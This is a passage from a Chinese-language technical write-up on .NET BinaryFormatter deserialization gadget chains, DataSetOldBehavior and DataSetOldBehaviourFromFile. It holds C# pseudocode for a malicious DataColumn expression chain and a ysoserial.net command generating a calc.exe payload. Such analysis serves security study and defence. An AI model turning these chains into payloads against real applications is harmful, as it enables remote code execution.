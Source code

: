 
### 5.4 伪代码示例

```csharp
// 构造 DataColumn，设置 Expression 为恶意表达式
var column = new DataColumn();
column.Expression = "SomeMaliciousExpression"; // 例如调用特定方法

// 构造 DataTable，添加 column
var table = new DataTable();
table.Columns.Add(column);

// 构造 DataSet，添加 table
var ds = new DataSet();
ds.Tables.Add(table);

// 序列化 ds
var formatter = new BinaryFormatter();
formatter.Serialize(stream, ds);

// 反序列化时触发链条（OldBehavior 模式下）
formatter.Deserialize(stream);
```

---

### 5.5 触发点与关键代码

- **DataColumn.Expression**  
    在 OldBehavior 模式下，反序列化时自动解析，攻击者可控。
- **DataSet.ReadXml / ReadXmlSchema**  
    解析 XML 时可能触发表达式解析。

---

### 5.6 影响范围

- 影响所有使用 `BinaryFormatter`、`NetDataContractSerializer` 反序列化且未做类型限制的 .NET Framework 应用，尤其是在启用 OldBehavior 的环境下。
- 主要影响 .NET Framework 2.0/3.5/4.x，.NET Core/5/6 默认不包含全部功能。

### 5.7 参考利用链（ysoserial.net）

```bash
ysoserial.exe -g DataSetOldBehavior -f BinaryFormatter -o base64 -c "calc.exe"
```

---
## 6 DataSetOldBehaviourFromFile链
### 6.1 什么是 DataSetOldBehaviourFromFile 链?

- `DataSetOldBehaviourFromFile` 链是利用 .NET 框架中 `System.Data.DataSet` 在反序列化时支持从外部文件加载 XML 数据的特性进行攻击的一种方式。
- 攻击者可通过构造特定的 XML 文件，并诱使目标应用在反序列化过程中加载该文件，实现任意代码执行或敏感信息泄露。

---